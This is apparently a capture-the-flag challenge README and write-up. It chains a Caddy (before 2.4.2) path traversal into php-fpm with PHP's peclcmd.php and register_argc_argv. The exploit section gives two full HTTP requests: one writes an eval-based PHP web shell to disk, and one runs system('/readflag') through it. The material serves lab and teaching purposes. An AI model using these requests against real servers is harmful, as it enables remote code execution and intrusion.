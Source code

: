 # VerySave

## How to Setup Environment

`cd docker && docker-compose up -d`

## Write Up

I learn a funny issue from [2-and-a-bit-of-magic](https://speakerdeck.com/greendog/2-and-a-bit-of-magic)

Caddy before 2.4.2 can path traversal in php-fpm

At the same time, I think of [MeowWorld in 巅峰极客](https://www.anquanke.com/post/id/218977#h2-3) and [camp-ctf-2015](https://web.archive.org/web/20201022203937/https://khack40.info/camp-ctf-2015-trolol-web-write-up/).Great thanks to them, I made a funny challenge.

register_argc_argv is TRUE in default PHP docker configuration and peclcmd.php is in default PHP docker.

### Exploit

```
GET /../usr/local/lib/php/peclcmd.php?+config-create+/tmp/<?=eval($_POST[1]);?>/*+/srv/qqqq.php HTTP/1.1
Host: test.local:54120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

And then

```
POST /../tmp/qqqq.php HTTP/1.1
Host: test.local:54120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

1=system('/readflag');
```